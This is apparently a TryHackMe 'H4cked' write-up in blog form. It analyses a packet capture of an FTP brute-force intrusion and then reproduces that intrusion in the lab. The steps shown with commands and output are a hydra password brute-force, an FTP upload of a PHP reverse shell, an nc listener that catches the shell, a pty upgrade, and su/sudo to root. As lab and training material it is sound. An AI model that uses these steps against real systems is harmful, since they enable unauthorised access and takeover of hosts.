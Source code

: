 ```yaml
---
title: "H4cked"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="hacked.png" alt="hacked" style="width: 200px;" >}}

Hey! how are yo doing?
We are usually on the red side, trying to hack machines
But today we doing blue stuff
Investigating a pcap file to catch a hacker

## Analysis

we open `Capture.pcapng` with your favorite tool

I go with `wireshark`
Just read a bit and you already understand someone is trying to `ftp` as `jenny`
Might be bruteforcing with `hydra`
Follow the tcp stream on successful login to get the password `password123`
He was in `/var/www/html` then made a http get request for `/shell.php`
the file can be read after `ftp-data` filter is applied
obviously its from [pentestmonkeys](http://pentestmonkey.net/tools/php-reverse-shell)!

I dumped the file content as printable text in a txt file for readability

Now its time to follow the tcp stream again and get his actions inside `wir3`
he spawned a more comfortable shell with the good ol'

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

then used `whoami` then `sudo su` like a boss
jenny got too many privileges for someone using such a weak password
My man cloned a badass backdoor from project [Reptile](git clone https://github.com/f0rb1dd3n/Reptile.git)

Just read about it!

Now its time to do better than the attacker

## Getting Access

he obviously changed the password so we can't just ssh as jenny (duh)
so we have to re-do everything
we can directly get into the hydra cracking

```bash
└──╼ $hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://10.10.100.132/
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-01 17:33:29
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.100.132:21/
[STATUS] 93.00 tries/min, 93 tries in 00:01h, 14344339 to do in 2570:41h, 16 active
[21][ftp] host: 10.10.100.132   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 13 final worker threads did not complete until end.
[ERROR] 13 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-02-01 17:34:51
```

He is doing better than jenny at least

```bash
└──╼ $ftp 10.10.100.132
Connected to 10.10.100.132.
220 Hello FTP World!
Name (10.10.100.132:nair0lf32): jenny
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Updated his own shell to serve us as `shell2.php`

```bash
ftp> put /h4cked/shell2.php shell2.php
local: /h4cked/shell2.php remote: shell2.php
227 Entering Passive Mode (10,10,100,132,140,101)
150 Ok to send data.
226 Transfer complete.
5524 bytes sent in 0.00 secs (65.0382 MB/s)
ftp> ls
227 Entering Passive Mode (10,10,100,132,170,74)
150 Here comes the directory listing.
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5493 Feb 01  2021 shell.php
-rw-------    1 1000     1000         5524 Feb 01 17:12 shell2.php
ftp> chmod 777 shell2.php
200 SITE CHMOD command ok.
```

We are in too! Now Get that TTY!

```bash
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 43016
Linux wir3 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 17:15:04 up 39 min,  0 users,  load average: 0.00, 0.00, 0.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@wir3:/$
```

## privilege escalation

Now we do the good ol' switcheroo

```bash
www-data@wir3:/home/jenny$ su jenny
su jenny
Password: 987654321

jenny@wir3:~$ sudo su
sudo su
[sudo] password for jenny: 987654321

root@wir3:/home/jenny#
```

Get the flag

```bash
root@wir3:/home/jenny# cd /root
cd /root
root@wir3:~# ls
ls
Reptile
root@wir3:~# cd Reptile
cd Reptile
root@wir3:~/Reptile# ls
ls
configs   Kconfig  Makefile  README.md  userland
flag.txt  kernel   output    scripts
root@wir3:~/Reptile# cat flag.txt
cat flag.txt
straight_to_jail_intruder
```

Nice, simple, fun easy room!
